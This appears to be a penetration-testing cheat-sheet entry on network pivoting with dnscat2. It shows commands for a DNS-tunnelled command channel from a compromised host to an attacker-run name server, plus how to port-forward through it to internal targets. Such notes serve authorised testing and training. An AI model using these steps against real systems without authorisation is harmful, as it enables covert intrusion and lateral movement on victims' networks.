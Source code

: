 ```yaml
---
tags:
    - pivoting
    - linux
---
```

We can use dnscat2. Server runs on an authoritative name server for a specific domain and clients run on compromised hosts.


1. Run the server on the name server:
```bash
dnscat2-server "$DOMAIN"
```

2. Run the client on the compromised host:
```bash
./dnscat "$DOMAIN"
```

3. Once connection is made, list the active windows with `windows`, and enter the window with `window -i $ID`.

4. To port forward, run:
```
listen 127.0.0.1:$PIVOT_PORT $TARGET_IP:$TARGET_PORT
```
